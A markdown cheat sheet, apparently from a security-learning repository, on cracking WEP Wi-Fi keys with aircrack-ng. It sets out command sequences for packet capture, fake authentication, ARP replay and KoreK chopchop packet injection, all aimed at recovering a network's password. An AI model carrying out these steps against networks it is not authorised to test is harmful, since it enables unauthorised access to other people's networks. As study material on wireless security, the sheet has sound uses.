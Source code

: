 # WIRED EQUIVALENT PRIVACY

### ~ Uses RC4 algorithm 
### ~ Random Initialization vector (IV) is used to generate keys. (24 bits)
### ~ IV + Key (password) = key stream
### ~ IV is sent in plain text and can repeat in busy networks, hence can be used to determine key streams.

## 1. BASIC CASE - BUSY NETWORKS

#### Perform targetted packet sniffing and crack the password using `aircrack-ng`.

> `airodump-ng --bssid <host-mac> -channel <channel> --write <file> wlan0`
> 
> `aircrack-ng <cap file>`

#### More the number of packets captured, higher the chances of password cracking.

## 2. NON BUSY NETWORKS - 

#### Associate with the network and force it to generate packets.
#### Association:
##### Get MAC Address of wireless adapter using `ifconfig` (First 12 characters next to unspec).
> `aireplay-ng --fakeauth 0 -a <host-bssid> -h <adapter-mac> wlan0`

### ~ ARP Request Reply Attack:
#### Wait for an ARP packet to be transmitted from the network and re-transmit it, forcing the AP to generate a new packet with new IV.
> `airodump-ng --bssid <host-mac> -channel <channel> --write <file> wlan0`
> `aireplay-ng --fakeauth 0 -a <host-bssid> -h <adapter-mac> wlan0`
> `aireplay-ng --arpreplay -b <AP-mac> -h <adapter-mac> wlan0`
> `aircrack-ng <cap file>`

### ~ Korek Chop Chop Attack:
#### Try to determine the key stream for a packet, and create a new packet with the key stream. Inject this packet into the traffic, hence forcing the AP to generate a new packet with a new IV.

> `airodump-ng --bssid <host-mac> -channel <channel> --write <file> wlan0`
> 
> `aireplay-ng --fakeauth 0 -a <host-bssid> -h <adapter-mac> wlan0`
> 
> `aireplay-ng --chopchop -b <target-bssid> -h <adapter-mac> wlan0`
> 
> `packetforge-ng -0 -a <target> -h <adapter> -k 255.255.255.255 -l 255.255.255.255 -y <keystreamFile(.xor) -w <1*>`
>  
>  `aireplay-ng -2 -r <2*> wlan0`

#### 1* - Name to save fake packet generated from packetforge.
#### 2* - Name of the packet generated through packetforge.

#### Once number of packets reach around 20,000 from the last command, use `aircrack-ng` to crack the password.
